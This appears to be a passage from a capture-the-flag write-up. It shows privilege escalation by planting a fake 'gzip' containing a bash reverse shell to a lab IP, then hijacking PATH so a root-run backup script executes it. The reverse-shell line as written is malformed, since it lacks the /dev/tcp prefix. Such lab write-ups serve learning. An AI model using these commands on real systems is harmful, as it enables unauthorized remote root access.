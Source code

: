 ### Exploit 

- Finally, I use bash to launch a connection to my server.
```
# echo "bash -i >& 10.10.16.13/44446 0>&1" > gzip
# cat gzip
# chmod 777 gzip
```

![](./IMG/39.png)
- Then the next things is find out a way to make ```access_backup.sh``` execute the fake gzip.
- In here, I really have no idea, so I read the write up, it told me that the **PATH Injection** is a great method to achieve it 

```
# echo $PATH
# export PATH=$(pwd):$PATH
# echo $PATH
```
![](./IMG/40.png)


#### PATH Injection 

    In this challenge, 
    we create a fake gzip and the goal is let the shell which has root permission can run the fake gzip .
    so we use path injection .
    The PATH injection is based on changing the value of PATH Variable , this variable are the path where the program runs in our system.
    By PATH Injection, I change the target directory which the root will run at first to our fake gzip location.
#### PATH injection DONE 


### Root flag
